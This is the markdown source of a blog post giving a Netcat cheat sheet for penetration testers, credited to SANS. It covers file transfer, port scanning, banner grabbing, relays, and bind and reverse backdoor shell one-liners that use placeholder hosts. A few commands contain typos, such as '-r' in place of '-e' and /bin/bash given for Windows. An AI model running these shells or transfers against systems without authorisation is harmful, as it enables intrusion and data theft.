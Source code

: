 ```yaml
---
layout: post
title: "Netcat Cheat Sheet"
date: 2016-05-22 22:12:33 -0700
categories: netcat, pentest
---
```

[Netcat][netcat-link] is considered to be the TCP/IP swiss army knife and is capable of writing data across the network. Its ability to create a connection to almost anything makes it an easy to use utility that is part of any infosec professionals toolbox. This cheat sheet provides tips and tricks for Netcat on both Linux and Unix.

All credit for putting together this cheat sheet goes to Ed Skoudis and [SANS][sans-link]

### Fundamentals

#### Netcat client
{% highlight bash %}
nc [TargetIPaddr] [port]
{% endhighlight %}
Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

#### Netcat listener
{% highlight bash %}
nc -l -p [LocalPort]
{% endhighlight %}
Create a Netcat listener on arbitrary local port [LocalPort]
<br>
---

### File Transfer

#### Push a file from client to listener
{% highlight bash %}
nc -l -p [LocalPort] > [outfile]
{% endhighlight %}
Listen on [localPort], store results in [outfile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] < [infile]
{% endhighlight %}
Push [infile] to [TargetIPaddr] on [port]

#### Pull file from listener back to client
{% highlight bash %}
nc -l -p [LocalPort] < [infile]
{% endhighlight %}
Listen on [LocalPort], prep to push [infile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] > [outfile]
{% endhighlight %}
Connect to [TargetIPaddr] on [port] and retrieve [outfile]

---

### TCP Port Scanner

#### Port scan an IP Address
{% highlight bash %}
nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)

The randomized ports (-r) switch can be used to choose port numbers randomly in the range

---

### TCP Banner Grabber

#### Grab the banner of TCP services running on an IP address from Linux
{% highlight bash %}
echo "" | nc -v -n -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range form [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second
for a connection to occur (-w1). Then send a blank string to the open port and print out any banner
received in response

Add -r to randomize destination ports within the range

Add -p [port] to specify a source port

---

### Backdoor Shells

#### Listening backdoor shell on Linux
{% highlight bash %}
nc -l -p [LocalPort] -e /bin/bash
{% endhighlight %}

#### Listening backdoor shell on Windows
{% highlight bash %}
nc -l -p [LocalPort] -e cmd.exe
{% endhighlight %}

Create a shell on a local port [LocalPort] that can then be accessed using a fundamental
Netcat client

#### Reverse backdoor shell on Linux
{% highlight bash %}
nc [YourIPaddr] [port] -r /bin/bash
{% endhighlight %}

#### Reverse backdoor shell on Windows
{% highlight bash %}
nc [YourIPaddr] [port] -e /bin/bash
{% endhighlight %}

Create a reverse shell that will attempt to connect to [YourIPaddr] on a local [port]. This shell can then be captured on local port [port]. This shell can then be captured using a fundamental netcat listener

---

### Netcat Relays on Linux
To begin, create a FIFO (named pipe) called backpipe:
{% highlight bash %}
cd /tmp
mknod backpipe p
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
nc -l -p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
client connected to [TargerIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from any connection on [LocalPort_1] to any
connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
nc [PreviousHopIPaddr] [port] 0<backpipe | [NextHopIPaddr] [port2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Relays on Windows
To begin, enter a temporary directory where we will create .bat files:
{% highlight bash %}
cd c:\temp
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
echo nc [TargetIPaddr] [port] > relay.bat
nc -l -p [LocalPort] -e relay.bat
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
Client connected to [TargetIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
echo nc -l -p [LocalPort_2] > relay.bat
nc -l -p [LocalPort_1] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from any connection on [LocalPort_1] to
any connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
echo nc [NextHopIPaddr] [port2] > relay.bat
nc [PreviosHopIPaddr] [port] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from the connection to [PreviousHopIPaddr]
on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Command Flags
{% highlight bash %}
nc [options] [TargetIPaddr] [ports(s)]
{% endhighlight %}

The [TargetIPaddr] is simply the other side's IP address or domain name. It is
required in client mode of course (because we have to tell the client where to
connect), and is optional in listen mode.

-l : Listen mode (default is client mode)

-L : Listen harder (supported only on Windows version of Netcat). This     option makes Netcat a persistent listener which starts listening again after a client disconnects

-u : UDP mode (default is TCP)

-p : Local port (In listen mode, this is the port listened on. In client mode, this is the source port for all packets sent)

-e : Program to execute after connection occurs, connecting STDIN and STDOUT to the program

-n : Don't perform DNS lookups on names of machines on the other side

-z : Zero-I/O mode (Don't send any data, just emit a packet without payload)

-wN : Timeout for connects, waits for N seconds after closure of STDIN. A Netcat listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running.

-v : Be verbose, printing out messages on Standard Error, such as when a connection occurs

-vv : Be very verbose, printing even more details on Standard Error

[netcat-link]: https://en.wikipedia.org/wiki/Netcat
[sans-link]: https://www.sans.org/